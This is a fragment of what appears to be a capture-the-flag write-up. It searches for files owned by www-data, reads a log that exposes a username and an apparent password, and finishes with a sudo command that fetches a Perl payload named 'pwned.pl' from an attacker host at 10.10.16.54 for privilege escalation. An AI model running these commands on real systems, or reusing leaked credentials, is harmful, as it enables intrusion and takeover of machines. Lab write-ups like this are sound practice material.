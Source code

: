 



```
find / -user www-data 2>/dev/null | grep -vE "run|proc|var"
```

We have this output
```
/tmp/m.msg
/tmp/tmux-33
/usr/local/investigation/analysed_log
/dev/shm/pspy64
/dev/shm/e.sh
/dev/pts/2
/dev/pts/1
/dev/pts/0
```

Let's analyse the ```/usr/local/investigation/analysed_log```


Let's check now the file, we have
```
<Data Name="TargetUserName">SMorton</Data>
<Data Name="TargetUserName">Def@ultf0r3nz!csPa$$</Data>
```


```
sudo binary http://10.10.16.54:8000/pwned.pl lDnxUysaQn
```


